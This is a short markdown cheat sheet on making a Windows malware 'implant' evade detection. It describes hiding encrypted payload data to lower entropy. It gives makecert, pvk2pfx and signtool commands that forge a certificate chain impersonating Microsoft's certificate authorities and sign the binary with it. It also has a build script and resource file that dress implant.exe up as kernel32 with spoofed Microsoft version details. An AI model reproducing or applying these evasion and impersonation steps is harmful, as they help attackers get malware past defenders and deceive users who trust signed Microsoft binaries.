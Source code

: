 ## Executable with high entropy
High entropy == encrypted data == detection

Solutions:
- putting encrypted data on the stack (.text section)
- concatenate data to a image in the .rsrc section
- concatenate entire executable with another benign executable
- convert encrypted data to hexstring/guid like string

## Missing binary signature
Self signed CA:
```shell
makecert -r -pe -n "CN = Microsoft Root Certificate Authority 2010,O = Microsoft Corporation,L = Redmond,S = Washington,C = US" -ss CA -sr CurrentUser -a sha256 -cy authority -sky signature -sv CA.pvk CA.cer
```

Self signed cert:
```shell
makecert -pe -n "CN=Microsoft Windows Production PCA 2011,O = Microsoft Corporation,L = Redmond,S = Washington,C = US" -a sha256 -cy end -sky signature -eku 1.3.6.1.5.5.7.3.3,1.3.6.1.4.1.311.10.3.24,1.3.6.1.4.1.311.10.3.6 -ic CA.cer -iv CA.pvk -sv SPC.pvk SPC.cer
```

Convert to PFX:
```shell
pvk2pfx -pvk SPC.pvk -spc SPC.cer -pfx SPC.pfx
```

Sign binary:
```shell
signtool sign /v /f SPC.pfx EXECUTABLE
```

## Missing executable details/description
ResHacker.exe > File > Open... > EXECUTABLE > Action > Add from a Resource file... > c:/windows/system32/kernel32.dll

or using batch file to compile it automatically:
```shell
@ECHO OFF

rc ver.rc
cvtres /MACHINE:x64 /OUT:ver.o ver.res
cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcimplant.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64 ver.o

del *.obj *.o *.res
```

Using this resource file:
```json
1 VERSIONINFO
FILEVERSION 10,0,17763,475
PRODUCTVERSION 10,0,17763,475
FILEOS 0x40004
FILETYPE 0x2
{
	BLOCK "StringFileInfo"
	{
		BLOCK "040904B0"
		{
			VALUE "CompanyName", "Microsoft Corporation"
			VALUE "FileDescription", "Windows NT BASE API Client DLL"
			VALUE "FileVersion", "10.0.17763.475 (WinBuild.160101.0800)"
			VALUE "InternalName", "kernel32"
			VALUE "LegalCopyright", "\xA9 Macrohard Corporation. All rights reserved."
			VALUE "OriginalFilename", "kernel32"
			VALUE "ProductName", "Microsoft\xAE Windows\xAE Operating System"
			VALUE "ProductVersion", "10.0.17763.475"
		}
	}
	
	BLOCK "VarFileInfo"
	{
		VALUE "Translation", 0x0409 0x04B0  
	}
}
```